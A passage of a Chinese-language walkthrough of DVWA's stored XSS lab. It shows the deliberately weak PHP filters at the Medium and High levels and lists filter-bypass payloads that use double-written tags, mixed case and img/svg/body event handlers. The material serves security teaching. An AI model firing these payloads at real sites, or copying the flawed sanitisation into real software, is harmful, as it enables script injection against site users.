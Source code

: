* strip_tags() 函数剥去字符串中的 HTML、XML 以及 PHP 的标签，但允许使用`<b>`标签。

* addslashes() 函数返回在预定义字符（单引号、双引号、反斜杠、NULL）之前添加反斜杠的字符串。

可以看到，由于对message参数使用了`htmlspecialchars`函数进行编码，因此无法再通过message参数注入XSS代码，但是对于name参数，只是简单过滤了`<script>`字符串，仍然存在存储型的XSS。

### 漏洞利用
1. 双写绕过
`<scr<script>ipt>alert(1)</script>`
2. 大小写绕过
`<ScriPt>alert(1)</script>`
3. 黑名单绕过
```
<img src=1 onerror=alert(1)>
<svg onload=alert`1`>
<body/onload=alert(25)>
<img src=1 onerror=prompt(1)//
```

## High
### 核心代码
```
<?php

if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = strip_tags( addslashes( $message ) );
    $message = mysql_real_escape_string( $message );
    $message = htmlspecialchars( $message );

    // Sanitize name input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $name );
    $name = mysql_real_escape_string( $name );

    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysql_query( $query ) or die( '<pre>' . mysql_error() . '</pre>' );

    //mysql_close();
}

?>
```
可以看到，由于对message参数使用了`htmlspecialchars`函数进行编码，因此无法再通过message参数注入XSS代码,对于name参数这里使用正则表达式过滤了`<script>`标签，但是却忽略了img、iframe等其它危险的标签，因此name参数依旧存在存储型XSS

### 漏洞利用
同反射型XSS漏洞High级别利用方式
```
<img src=1 onerror=alert(1)>
<svg onload=alert`1`>
<body/onload=alert(25)>
<img src=1 onerror=prompt(1)//
```
## Impossible
### 核心代码
```
```